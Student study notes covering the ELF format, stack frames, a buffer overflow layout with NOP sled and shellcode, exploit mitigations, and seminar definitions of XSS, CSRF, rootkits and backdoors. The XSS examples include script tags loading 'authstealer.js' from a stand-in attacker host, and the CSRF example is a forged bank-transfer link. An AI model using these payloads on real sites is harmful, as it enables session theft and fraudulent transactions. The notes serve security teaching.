 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="C:\Users\dangk\Desktop\DVWA\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions meant to "slide" the CPU's instruction  execution flow to its final, desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 shellcode
- 37 junk data
- 4 new return address into nop-sled

![](C:\Users\dangk\Desktop\DVWA\overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: script src=”http://hackersite.com/authstealer.js”> </script>.
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: <a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		
		By change message=Please fill in the form to message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>

  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement <a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a> to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
